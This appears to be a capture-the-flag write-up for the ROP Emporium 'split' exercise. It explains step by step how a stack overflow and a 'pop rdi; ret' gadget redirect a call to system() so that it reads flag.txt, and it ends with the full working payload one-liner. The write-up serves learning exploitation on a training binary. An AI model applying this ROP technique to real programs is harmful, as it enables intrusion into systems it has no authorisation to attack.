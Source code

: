 ### split
The problem guides has told you that same as ret2win, there is a 0x20 buffer, which can be overflowed, and there is still a syscall in a function named usefulFunction.

First, check the binarat security.
```
gdb-peda$ checksec
CANARY    : disabled
FORTIFY   : disabled
NX        : ENABLED
PIE       : disabled
RELRO     : Partial
```
NX is enabled. Therefore, we cannot execute shellcode in stack directly. Thankful, the hint has told us that there is a syscall in function. We only need to control return address to jump to the syscall place.
Use ghidra to track the code.

There is indeed a 0x20 buffer, and indeed a syscall in function usefulFunction.

However, the syscall command is not "/bin/cat flag.txt", "but /bin/ls".
```
...
00400746 bf 4a 08        MOV        EDI=>s_/bin/ls_0040084a,s_/bin/ls_0040084a       = "/bin/ls"
         40 00
0040074b e8 10 fe        CALL       system                                           int system(char * __command)
         ff ff
...
```
Therefore, need to modify the command in the syscall, try to assign "/bin/cat flag.txt" to the register edi(x86 64 first argument).

Use ghidra to find "/bin/cat flag.txt" in binary.
```
...
                     usefulString                                    XREF[1]:     Entry Point(*)  
00601060 2f 62 69        ds         "/bin/cat flag.txt"
         6e 2f 63 
         61 74 20 

...
```
We find the string "/bin/cat flag.txt" in address 0x00601060.

Now, we need to find a instruction such as "pop rdi" or "pop edi" with ret to assign this address to EDI register.

Use rop command in peda-gdb.
```
...
0x00000000004007c3 : pop rdi ; ret
...
```
We find a gadget which exactly we want.

Then, we can construct our rop overflow strings.

Same as ret2win, buffer size is 0x20, and a rbp address, so the strings should be:

```
strings = 'A'*32(32 bytes) + rbp(8 bytes) = 'A' * 40 //overflow 0x20 buffer and rbp register
```
Next, the process should return to the gadget we found before, which will be:
```
'\xc3\x07\x40\x00\x00\x00\x00\x00' //return address jump to the gadget we want. In this case is, pop rdi; ret;
```
Then, we need to put the "/bin/cat flag.txt" address into stack, which will be pop into EDI register later:
```
'\x60\x10\x60\x00\x00\x00\x00\x00' //the value we want to pop into rdi register. In this case is the address of string "/bin/cat flag.txt".
```
Now, we successfully assign the command we want into the EDI register, we can return to the syscall place to executer syscall.
```
'\x4b\x07\x40\x00\x00\x00\x00\x00' //return address jump to the syscall. It will execute the command we assign to rdi.
```
Remember, we should directly jump to call system instruction. If we jump to the instruction right before it, the argument in EDI will be modified to "/bin/ls" again. 

The overflow string will be:
```
'A'*40 + '\xc3\x07\x40\x00\x00\x00\x00\x00' + '\x60\x10\x60\x00\x00\x00\x00\x00' + '\x4b\x07\x40\x00\x00\x00\x00\x00'
```
Run the program with input:
```
python2 -c "print 'A'*40 + '\xc3\x07\x40\x00\x00\x00\x00\x00' + '\x60\x10\x60\x00\x00\x00\x00\x00' + '\x4b\x07\x40\x00\x00\x00\x00\x00'" | ./split
```
Get the flag:
```
ROPE{a_placeholder_32byte_flag!}
```
